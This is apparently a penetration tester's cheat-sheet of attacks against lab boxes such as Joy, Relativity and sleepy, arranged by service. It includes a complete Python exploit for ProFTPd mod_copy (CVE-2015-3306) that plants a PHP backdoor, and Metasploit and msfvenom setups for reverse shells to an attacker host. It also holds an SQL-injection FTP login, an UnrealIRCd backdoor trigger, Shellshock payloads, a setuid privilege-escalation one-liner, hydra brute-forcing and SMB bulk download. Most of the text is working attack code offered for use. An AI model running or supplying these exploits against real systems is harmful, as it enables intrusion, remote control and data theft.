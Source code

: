 # ProFTPd

## ProFTPd 1.3.5, mod_copy

Box : Joy

Any Linux server running Proftp version < 1.3.5 are vulnerable.
https://raw.githubusercontent.com/t0kx/exploit-CVE-2015-3306/master/exploit.py
https://www.exploit-db.com/exploits/36742
https://www.exploit-db.com/exploits/36803

<https://www.exploit-db.com/exploits/36742>

	use exploit/unix/ftp/proftpd_modcopy_exec
	set RHOST 192.168.6.154
	set SITEPATH /var/www/html/test
	set TARGETURI /test/
	set PAYLOAD cmd/unix/reverse_perl
	# set payload cmd/unix/reverse_python
	set LHOST 192.168.6.138
	run


```python
#!/usr/bin/env python
# CVE-2015-3306 exploit by t0kx
# https://github.com/t0kx/exploit-CVE-2015-3306

import re
import socket
import requests
import argparse

class Exploit:
    def __init__(self, host, port, path):
        self.__sock = None
        self.__host = host
        self.__port = port
        self.__path = path

    def __connect(self):
        self.__sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.__sock.connect((self.__host, self.__port))
        self.__sock.recv(1024)

    def __exploit(self):
        payload = "<?php echo passthru($_GET['cmd']); ?>"
        # self.__sock.send(b"site cpfr /proc/self/fd/3\n")
        self.__sock.send(b"site cpfr /proc/self/cmdline\n")
        self.__sock.recv(1024)
        self.__sock.send(("site cpto /tmp/." + payload + "\n").encode("utf-8"))
        self.__sock.recv(1024)
        self.__sock.send(("site cpfr /tmp/." + payload + "\n").encode("utf-8"))
        self.__sock.recv(1024)
        self.__sock.send(("site cpto "+ self.__path +"/backdoor.php\n").encode("utf-8"))

        if "Copy successful" in str(self.__sock.recv(1024)):
            print("[+] Target exploited, acessing shell at http://" + self.__host + "/backdoor.php")
            print("[+] Running whoami: " + self.__trigger())
            print("[+] Done")
        else:
            print("[!] Failed")

    def __trigger(self):
        data = requests.get("http://" + self.__host + "/backdoor.php?cmd=whoami")
        match = re.search('cpto /tmp/.([^"]+)', data.text)
        return match.group(0)[11::].replace("\n", "")

    def run(self):
        self.__connect()
        self.__exploit()

def main(args):
    print("[+] CVE-2015-3306 exploit by t0kx")
    print("[+] Exploiting " + args.host + ":" + args.port)

    exploit = Exploit(args.host, int(args.port), args.path)
    exploit.run()

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('--host', required=True)
    parser.add_argument('--port', required=True)
    parser.add_argument('--path', required=True)
    args = parser.parse_args()

    main(args)

```
## ProFTPD 1.2.8 - 1.2.9 mod_sql
	
Boxes : Relativity

	└─$ ftp 172.16.16.128
	Connected to 172.16.16.128.
	220 Welcome to Relativity FTP (mod_sql)
	Name (172.16.16.128:kali): %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 
	331 Password required for %').
	Password:1  <== WHY ?
	230 User %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # logged in.
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> ls 
	200 PORT command successful




# vsftpd

- The default location for pub ftp on CentOS : __/var/ftp/pub/__

# Tomcat

Boxes : sleepy

- Default : 
	1. _/etc/tomcat/tomcat-users.xml_
	2. _/etc/tomcat/server.xml_
- Shell
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.1 LPORT=1234 -f war > shell.war
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f war -o evil.war



# UnrealIRCd 3.2.8.1

Boxes : Relativity

	echo "AB;<command>" |nc <IRCd address> <port>

# HTTP auth basic

	# Brute force
	$ hydra -l admin  -p darkweb2017-top100.txt  a.b.c.d http-get


# Bash [v1.14 - v4.3 ]


## Shellshock bash [v1.14 - v4.3 ]

Boxes : sleepy

	env var='() { ignore this;}; echo VULN' bash -c /bin/true  
	env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
	env X=' () { }; echo hello' bash -c 'date'
	shellshocker='() { echo You are vulnerable; }' bash -c shellshocker

	curl -A " () { :; }; echo VULN " {URL}
	telnet <serveur_internet_sous_notre_controle> 8888
	# export function
	bash-4.2$ function /usr/bin/sl () { /bin/bash; }
	bash-4.2$ export -f /usr/bin/sl

## SHELLOPTS and PS4

Boxes : K2

    bash-4.2$ env -i SHELLOPTS=xtrace PS4='$(chown root:root /tmp/egg && chmod +s /tmp/egg)' /bin/sh -c '/usr/local/bin/whoisme'



# nginx

- Default path
	
	/nginx/usr/share/nginx/html/

# Wordpress

- Theme twentynineteen : /var/www/html/wordpress/wp-content/themes/twentynineteen/


# joomla


- Templates --> Template default for all pages --> New file --> Upload



# SSH

	ssh -t user@host $SHELL --norc --noprofile


# Docker

## enumeration

- deepce github

## Configuation

- docker-compose.yml
- gitlab-secrets.json
- gitlab.rb


# Samba

	enum4linux -a 192.168.110.17
	

	└─$ smbclient --user=qiu //192.168.110.17/qiu
	Enter WORKGROUP\qiu's password: password

	smbclient '\\server\share'
	mask ""
	recurse ON
	prompt OFF
	cd 'path\to\remote\dir'
	lcd '~/path/to/download/to/'
	mget *
	
